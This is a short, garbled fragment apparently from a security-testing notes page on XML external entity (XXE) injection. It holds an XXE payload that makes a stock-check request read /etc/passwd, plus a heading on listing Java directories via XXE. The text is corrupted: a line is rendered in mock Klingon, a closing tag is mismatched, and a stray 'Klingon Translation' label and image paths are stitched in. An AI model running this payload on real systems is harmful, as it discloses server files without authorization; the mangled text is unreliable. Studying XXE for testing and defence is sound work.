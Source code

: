 vaj case Hoch, `Element stockCheck` jatlh `ANY` ghotvam'e' jatlh.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
<productId>&file;</productId>
<storeId>1</storeId>
</stockCheck3>
```
![](<../.gitbook/assets/image (222) (1).png>)

### Directory listing

**Java** based applications it might be possible to **list the contents of a directory** via XXE with a payload like (just asking for the directory instead of the file):

**Klingon Translation:**

![](<../.gitbook/assets/image (222) (1).png>)
